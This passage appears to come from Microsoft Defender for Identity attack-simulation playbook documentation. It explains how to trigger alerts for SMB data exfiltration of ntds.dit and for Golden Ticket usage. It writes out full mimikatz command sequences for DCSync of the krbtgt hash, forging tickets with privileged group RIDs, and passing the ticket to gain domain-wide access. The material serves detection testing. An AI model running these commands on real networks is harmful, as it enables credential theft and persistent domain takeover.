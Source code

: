 Copy the ntds.dit file from the DC to your workstation (Z:).

Tools available from: [Sysinternals downloads](/sysinternals/downloads/)

Detail in the alert:  

![Data exfiltration over SMB alert details.](media/playbooks/data-exfiltration-smb-details.png)

Keep in mind that Defender for Identity can also track files uploaded from workstation or server to a domain controller. This can be useful to detect abnormal activities. You should see this type of activities from the user timeline:  

![Files copied to a domain controller.](media/playbooks/files-copied-domain-controller.png)  

## Suspected Golden Ticket usage (encryption downgrade) & (nonexistent account) & (Time anomaly)

For details about this alert, see [Suspected Golden Ticket usage (encryption downgrade) (external ID 2009)](domain-dominance-alerts.md#suspected-golden-ticket-usage-encryption-downgrade-external-id-2009), [Suspected Golden Ticket usage (nonexistent account) (external ID 2027)](domain-dominance-alerts.md#suspected-golden-ticket-usage-nonexistent-account-external-id-2027), and [Suspected Golden Ticket usage (time anomaly) (external ID 2022)](domain-dominance-alerts.md#suspected-golden-ticket-usage-time-anomaly-external-id-2022).

Defender for Identity can detect six types of Golden Ticket attacks. Let's see two of them.

Using the krbtgt's password hash from the DCsync attackers can now create a Kerberos ticket granting ticket (TGT) that provides authorization to any resource and set the ticket expiration to any arbitrary time. This fake TGT is called a "Golden Ticket" and allows attackers to achieve network persistence.  

From a command line on a workstation, run with a local admin account:  

`mimikatz # privilege::debug`
`mimikatz # lsadump::dcsync /domain:msdemo.local /user:krbtgt`  => to get the krbgt's password hash needed for the /rc4
`mimikatz # Kerberos::golden /domain:msdemo.local /sid:S-1-5-21-4112553867-xxxxxxxxxxxx /rc4:xxxxxxxxxxxxxxx /user:administrator /id:500 /groups:513,512,520,518,519 /ticket:administrator.kirbi` => create a fake TGT for the default administrator account (RID=500) and add sensitive RID groups  
`mimikatz # kerberos::ptt administrator.kirbi` => load the fake TGT  
`mimikatz # misc::cmd` => open a cmd  
`klist` => check if the TGT is loaded  
`ldp.exe` => then bind (digest) to an LDAP server to use the fake TGT for encryption downgrade detection

`mimikatz # privilege::debug`
`mimikatz # lsadump::dcsync /domain:msdemo.local /user:krbtgt` => to get the krbgt's password hash needed for the /rc4:...  
`mimikatz # Kerberos::golden /domain:msdemo.local /sid:S-1-5-21-4112553867-xxxxxxxxxxxx /rc4:xxxxxxxxxxxxxxx /user:XYZ /id:500 /groups:513,512,520,518,519,1107 /ticket:XYZ.kirbi` => create a fake TGT for the nonexistent account and add sensitive RID groups (valid for 2àmn)
`mimikatz # kerberos::ptt XYZ.kirbi` => load the fake TGT
`klist` => check if the TGT is loaded
`ldp.exe` => then bind (digest) to an LDAP server to use the fake TGT for nonexistent account detection  
